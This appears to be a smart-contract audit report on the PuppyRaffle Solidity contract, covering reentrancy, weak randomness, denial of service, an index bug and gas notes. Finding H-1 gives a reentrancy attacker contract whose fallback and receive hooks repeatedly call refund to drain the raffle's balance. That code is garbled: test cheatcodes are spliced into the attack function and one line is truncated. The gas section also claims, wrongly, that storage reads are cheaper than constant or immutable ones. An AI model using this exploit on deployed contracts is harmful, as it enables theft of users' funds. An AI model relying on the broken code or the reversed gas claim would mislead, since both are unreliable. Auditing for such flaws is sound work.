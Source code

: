 ### [H-1] Reentrancy attack in `PuppyRaffle::refund` function allows entrant to drain raffle balance

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Checs, Effects, Interactions) and as a result, enable participants to drain the contract balance.

In the `PupplyRaffle::refund` function we make an external call to the `msg.sender` and only after making that external call do we update the `PuppyRaffle::players` array.

```javascript

function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        
        
@>       payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);


        emit RaffleRefunded(playerAddress);
    }

```
A player who has entered the raffle could have a `fallback/receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue the cycle till the contract balance is drained.


**Impact** All the entranceFees can be stolen by the malicious participant

**Proof Of Code**

1. User enters raffle.
2. Attacker sets up a contract with a `fallback` function that call `PuppyRaffle::refund`.
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from the attack contract, draining all the contract balance.


**Proof of Code**
<details>
<summary>Code</summary>

```javascript

contract ReentrancyAttacker{
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();

    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;
        
        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("Starting Attacker Contract Balance", startingAttackContractBalance);
        console.log("Starting Contract Balance", startingContractBalance);

         console.log("Ending Attacker Contract Balance", address(attackerContract).balance);
         console.log("Ending Contract Balance", address(puppyRaffle).balan);
    }

    function stealMoney() internal  {
        if(address(puppyRaffle).balance >= entranceFee)
        {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable{
        stealMoney();
    }

    receive() external payable{
        stealMoney();
    }
}

```

</details>


**Recommend Mitigation** To prevent this we should update the players array before the external call, additionally we should move the event emission up as well.

### [H-2] Weak Randomness in `PuppyRaffle::selectWinner()` allows user to influence or predict the winner

**Description** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` together creates a predictable final number. A attacker can choose a winner by themselves.

*Note:* This additionally means attacker, can front-run this function and call `refund()` if they see they are not the winner.

**Impact** Any user can influence the winner of the raffle, winning the money and selecting the rarest puppy. 

**Proof Of Concept**

1. Validators can know ahead of time, `block.timestamp` and `block.difficulty` and use that to predict, when and how to participate.
`block.difficulty` was replaced by `block.prevrando` for the safety purpose.
2. User can mine/manipulate their `msg.sender` value to result in their address being used to generated the winner!
3. Users can revert their `selectWinner` transaction if they don;t like the winner or selected puppy.

**Recommended Mitigation** Condider using a crptographically provable random number generator such as `Chainlink VRF`.


### [M-1] Looping through the players array to check the duplicates in `PupplyRaffle::enterRaffle` is a potential denial of service (DOS) attack, incrementing gas costs for the future entrants

Impact: MEDIUM 
LIKELIHOOD - Medium

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle starts will be automatically lower than those who enter later. 
Every additional address in the array, is an additional check the loop will have to make.

```javascript
//@Audit DOS
for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }

```

**Impact:** The gas costs to enter raffle will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::entrants` array so big, that no one else enters, guaranteeing themselves the win.

**Proof of Concept:**

If we have two sets of 100 players enter, the gas costs will be as follows:

- 1st 100 players: 6252128 gas
- 2nd 100 players: 18068218 gas

This is more than 3x expensive for the second 100 players.

<details>
<summary>PoC</summary>
Place the following test into `PupplyRaffleTest.sol`,

```javascript

function test_denialOfService() public {
        vm.txGasPrice(1);
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for(uint256 i=0; i< playersNum;i++)
        {
            players[i] = address(i);
        }
        //gas Costs:
        uint256 gasStarts = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnds = gasleft();

        uint256 gasUsed = (gasStarts - gasEnds) * tx.gasprice;
        console.log("Gas used for 100 players", gasUsed);

         address[] memory playersTwo = new address[](playersNum);
        for(uint256 i=0; i< playersNum;i++)
        {
            players[i] = address(i + playersNum);
        }
        //gas Costs:
        uint256 gasStartsTwo = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEndsTwo = gasleft();

        uint256 gasUsedTwo = (gasStartsTwo - gasEndsTwo) * tx.gasprice;
        console.log("Gas used for 2nd 100 players", gasUsedTwo);

        assert(gasUsed < gasUsedTwo);
    }


```
</details>


**Recommended Mitigation:**

1. Consider allowing duplicates.Users can make new wallet adderesses, so duplicate check won't work.
2. Consider using a mapping to check for duplicates.This would allow constant time lookup of whether a user has already entered. 

Alternatively, can use [OpenZeppelin's `EnumerableSet` library]
(https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/structs/EnumerableSet.sol)

### [L-1] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existence players and player at index 0, causing a player at index 0 to incorrectly think he has not entered the raffle

**Description** If a player in the `PuppyRaffle::players` array is at index 0 it will return 0.

```javascript

   function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
@>        return 0;
    }

```

**Impact** A player at index 0 to incorrectly think he has not entered the raffle, and may attempt to enter the raffle again, wasting gas.

**Proof Of Concept**
1. User enters raffle.
2. `PuppyRaffle::players` returns 0 for player at index 0, incorrectly reflecting player not entered.
3. Player attempts to enter again.

**Recommended Mitigation** The easiest way is to `revert` if player is not in the array instead of returning 0.

Better solution might be to return an `int256`, whereas function returns -1 if player is not active.


### [I-1]: Solidity pragma should be specific not wide

Consider using specific version of solidity instead of wide versions.
For example, instead of using `^0.8.0` use `0.8.0`;

- Found in src/PupplyRaffle.sol

### [I-2]: `PuppyRaffle::selectWinner()` does not follow [CEI], which is not a best practice

### GAS

### [G-1]: Unchanged `State Varibles` should be assigned as `Immutable` or `Constant`:

Insight: Reading from `storage` is much more gas effective than reading from `constant` or `immutable`

Instances:
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffel::commonImageUri` should be `constant`
- `PuppyRaffel::rareImageUri` should be `constant`
- `PuppyRaffel::legendaryImageUri` should be `constant`

### [G-2]: Storage variables in loop should be `Cached`:

Insight: Everytime you read `players.length` you read it from storage, instead of memory, which is more gas efficient.

```diff
+ uint256 playerLength = players.length;
- for (uint256 i = 0; i < players.length - 1; i++) {
+ for (uint256 i = 0; i < playerLength - 1; i++) {
-  for (uint256 j = i + 1; j < players.length; j++) {
+   for (uint256 j = i + 1; j < playerLength; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
    }

```



